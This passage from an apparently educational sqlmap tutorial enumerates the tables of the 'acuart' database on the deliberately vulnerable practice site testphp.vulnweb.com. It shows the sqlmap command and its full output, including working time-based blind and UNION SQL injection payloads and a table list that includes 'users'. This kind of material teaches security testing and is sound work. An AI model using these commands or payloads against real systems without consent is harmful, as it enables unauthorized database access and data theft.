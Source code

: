 3. After successfully determining the database name, we'll enumerate database tables from it

   ```shell
   sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" -D acuart --tables
   ```

   `-D`: DBMS database name to enumerate

   `--tables`: Enumerate DBMS database tables

   ```shell
   ┌──(dyl4n㉿kali)-[/]
   └─$ sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" -D acuart --tables
           ___
          __H__
    ___ ___[']_____ ___ ___  {1.7.2#stable}
   |_ -| . [.]     | .'| . |
   |___|_  [,]_|_|_|__,|  _|
         |_|V...       |_|   https://sqlmap.org

   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

   [*] starting @ 05:06:09 /2023-04-20/

   [05:06:09] [INFO] resuming back-end DBMS 'mysql'
   [05:06:12] [INFO] testing connection to the target URL
   sqlmap resumed the following injection point(s) from stored session:
   ---
   Parameter: test (GET)
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: test=query' AND (SELECT 8297 FROM (SELECT(SLEEP(5)))EfaF) AND 'ekJi'='ekJi

       Type: UNION query
       Title: Generic UNION query (NULL) - 3 columns
       Payload: test=query' UNION ALL SELECT NULL,CONCAT(0x7170627671,0x644b7762646447676e584f55746d49474a424d47796457714777664474694d624163684657445368,0x71626a7671),NULL-- -
   ---
   [05:06:16] [INFO] the back-end DBMS is MySQL
   web server operating system: Linux Ubuntu
   web application technology: Nginx 1.19.0, PHP 5.6.40
   back-end DBMS: MySQL >= 5.0.12
   [05:06:16] [INFO] fetching tables for database: 'acuart'
   Database: acuart
   [8 tables]
   +-----------+
   | artists   |
   | carts     |
   | categ     |
   | featured  |
   | guestbook |
   | pictures  |
   | products  |
   | users     |
   +-----------+

   [05:06:16] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'

   [*] ending @ 05:06:16 /2023-04-20/

   ```
